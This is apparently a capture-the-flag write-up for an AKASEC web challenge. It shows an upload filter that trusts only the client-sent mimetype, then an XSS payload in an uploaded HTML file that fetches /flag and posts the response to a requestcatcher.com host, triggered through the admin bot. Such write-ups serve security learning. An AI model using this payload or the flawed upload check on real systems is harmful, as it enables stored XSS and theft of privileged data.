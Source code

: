 Source code available. An admin bot is also provided. The location of the flag was found to be as follows: Obtaining the flag is possible by making a GET request to /flag via the admin bot.

```python
app.get('/flag', (req, res) => {
  let ip = req.connection.remoteAddress;
  if (ip === '127.0.0.1') {
    res.json({ flag: 'AKASEC{FAKE_FLAG}' });
  } else {
    res.status(403).json({ error: 'Access denied' });
  }
});

```

Upon searching for XSS, it was found that the upload feature could be exploited, leading to XSS. During uploads, only PDF files are accepted with the following validation:

```javascript
const upload = multer({ 
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (file.mimetype == "application/pdf") {
      cb(null, true);
    } else {
      cb(null, false);
      return cb(new Error('Only .pdf format allowed!'));
    }
  }
});

```

However, this part only checks the Request's Content-Type, so any file can pass the validation if this mimetype is specified. Therefore, after logging in, one should upload an HTML file as follows:

So execute solve.py with this line : "fetch('/flag').then(e=>e.text()).then(e=>{fetch('https://[yours].requestcatcher.com/post', { method : 'post', body: e })})"

This will redirect to something like /view/file-1717850909954.html, but it won't trigger from the view, so it must be opened directly at /uploads/file-1717850909954.html to trigger the XSS. Sending this to the admin bot will secure the flag. The intended solution involves performing XSS through CVE-2024-4367.